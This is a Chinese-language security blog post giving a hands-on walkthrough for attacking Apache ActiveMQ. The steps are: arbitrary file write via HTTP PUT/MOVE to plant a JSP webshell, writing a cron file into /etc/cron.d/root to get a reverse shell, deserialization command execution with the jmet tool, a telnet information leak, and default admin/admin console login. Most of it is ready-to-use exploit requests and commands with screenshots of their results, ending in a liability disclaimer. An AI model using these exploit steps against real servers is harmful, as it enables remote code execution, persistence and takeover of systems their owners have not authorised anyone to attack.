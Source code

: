 #  【攻防实战】ActiveMQ漏洞集锦   
原创 儒道易行  儒道易行   2025-06-01 12:01  
  
## ActiveMQ任意文件写入漏洞  
### 写入webshell  
  
写入webshell，需要写在admin或api应用中，都需要登录才能访问。  
  
默认的账号密码  
```
admin/admin

```  
  
首先访问  
```
http://x/admin/test/systemProperties.jsp

```  
  
查看ActiveMQ的绝对路径：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRq3a7Ja3fqjqCwb58VeQdTmdrsAm5jGZvuyBKvUYtkPB5yicV4cia3IPxg/640?wx_fmt=png&from=appmsg "")  
  
然后上传webshell：  
```
PUT /fileserver/2.txt HTTP/1.1


webshell

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRqdfRuiaJmwicerlHVAclMa5PIFEuk473Uut4wIttM5NN1zwd66Cz8zphg/640?wx_fmt=png&from=appmsg "")  
  
移动到web目录下的api文件夹中：  
```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/webapps/api/s.jsp

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRqic7rKoKnB9JrbqNjW1iaEzqGPnu2Iq5YK47tajq4shxTmyWq3PnqrpGA/640?wx_fmt=png&from=appmsg "")  
  
访问webshell（需要登录）：  
```
http://x/api/s.jsp?cmd=ls

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRq0qD8DyILLFVO7Gm4hNyTgMZ9CudVlT1wCADB62FYviau9W8Voh1GZ7Q/640?wx_fmt=png&from=appmsg "")  
### 写入crontab，自动化弹shell  
  
首先上传cron配置文件（注意，换行一定要\n  
，不能是\r\n  
，否则crontab执行会失败）：  
```
PUT /fileserver/1.txt HTTP/1.1

cron

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRq9Q0IYEEeyrjddwPDOFHyTD6LJCgGrN1WTkN88BgtwX6lkKwU1PmHfg/640?wx_fmt=png&from=appmsg "")  
  
将其移动到/etc/cron.d/root  
：  
```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRqCyeOCj9hm8FhLMZUf80ibcLTNvqA79PRVKAxicQNU9obHqXoX5F0MaFA/640?wx_fmt=png&from=appmsg "")  
  
如果上述两个请求都返回204了，说明写入成功。等待反弹shell：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRq8RwmyWQ72xjqBJQKZ6rxgvw0cRTAWjjs3KG4zrXddGJjbIMtPzHPyw/640?wx_fmt=png&from=appmsg "")  
## ActiveMQ 反序列化漏洞  
### 实战  
  
执行：  
```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME x x

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRqmeLbqanmQ11soYOQN2qNcnLtf7vGSCXJLBjuahvw5ChZ4g9qPARoBQ/640?wx_fmt=png&from=appmsg "")  
  
此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过  
```
http://x/admin/browse.jsp?JMSDestination=event

```  
  
看到这个队列中所有消息：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRq6t4fsc4x1aVOnycKkpIx7KPJkjbia4UDtgtmx6GRPD6VCUfibRBlJrjA/640?wx_fmt=png&from=appmsg "")  
  
点击进入该项目  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRqmfVg9lmLf99evJ6VuE0JoZZL2OPibP72xXcNiaINiaJLJrQjfKblPpO9g/640?wx_fmt=png&from=appmsg "")  
  
点击查看这条消息即可触发命令执行  
  
可见  
```
/tmp/success

```  
  
已成功创建，说明漏洞利用成功：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRq0iayBxjt3YibhPUMsFa7LwbW6ticbFlDryc0huWFZeZDXrC2UDwHCODMA/640?wx_fmt=png&from=appmsg "")  
## ActiveMQ 信息泄漏  
### 实战  
```
telnet x x

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRqFeiaicoicMwEcVjs5M8DpRicgEicDQfUJVica1sZSwIon4w3ZHjrVOoqh0Kw/640?wx_fmt=png&from=appmsg "")  
## ActiveMQ Console 存在默认弱口令  
### 实战  
  
Apache ActiveMQ 默认开启了控制台  
```
http://xxx/admin

```  
  
输入默认的账号密码  
```
admin/admin

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRq08Sq6ibJevYo76rTRJNHEGTXTU0sXeooxO41YzCAwjqzXDlicictClSGA/640?wx_fmt=png&from=appmsg "")  
  
登录成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRqBn3kBmjWXibCeicgCiczlFIgicWJGpaXv3E8SzX1xiauiaeNiadKuNuWTVDYA/640?wx_fmt=png&from=appmsg "")  
## 攻防交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/v94hWOZcBpxsmHbsgk4qFFQECSqj9icRqfqsqdaQcum96BJHfoj4PDxAWSOh1z47H3RCBtUPEzmzjL4fM7dMSCA/640?wx_fmt=jpeg&from=appmsg "")  
## 声明  
  
文笔生疏，措辞浅薄，敬请各位大佬不吝赐教，万分感谢。  
  
免责声明：由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
转载声明：儒道易行 拥有对此文章的修改和解释权，如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章的内容，不得以任何方式将其用于商业目的。  
  
